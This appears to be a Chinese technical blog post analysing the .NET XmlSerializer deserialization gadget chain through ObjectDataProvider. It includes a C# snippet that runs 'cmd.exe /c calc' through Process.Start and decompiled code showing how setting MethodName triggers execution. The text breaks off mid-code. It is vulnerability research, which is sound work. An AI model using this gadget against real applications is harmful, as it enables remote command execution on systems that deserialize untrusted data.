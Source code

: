 ```yaml
---
title: >-
  从三味书屋到百草堂，从XmlSerializer到BinnaryFormatter之XmlSerializer反序列化漏洞ObjectDataProvider利用链
tags:
  - C#
  - 反序列化
  - XmlSerializer
  - BinnaryFormatter
  - ObjectDataProvider
categories:
  - - 漏洞原理
top: 221
description: 本文详细介绍了 XmlSerializer 反序列化漏洞利用的 ObjectDataProvider 调用链路
abbrlink: ff457959
date: 2025-05-26 14:23:34
---
```

# 利用链分析
我们先从`ObjectDataProvider`开始，有下面一段代码  
```c#
using System;
using System.Diagnostics;
using System.Windows.Data;
using System.IO;
using System.Xml.Serialization;

namespace Test
{
    public class Program
    {
        static void Main(string[] args)
        {
            
            ObjectDataProvider odp = new ObjectDataProvider();
			odp.ObjectInstance = new Process();
            odp.MethodParameters.Add("cmd.exe");
            odp.MethodParameters.Add("/c calc");
            odp.MethodName = "Start";
        }
    }
}
```
当这段代码运行后会弹出计算机，那么命令行代码的执行时机是在哪呢，我们观察`ObjectDataProvider`的`MethodName`以及`MethodParameters`成员变量，发现`Methodname`存在`set`访问器  
在`set`访问器中有一个if判断是否是延迟刷新，默认计算结果为`false`即会调用到`Refresh`方法  
```c#
[DefaultValue(null)]
public string MethodName
{
    get
    {
        return _methodName;
    }
    set
    {
        _methodName = value;
        OnPropertyChanged("MethodName");
        if (!base.IsRefreshDeferred)
        {
            Refresh();
        }
```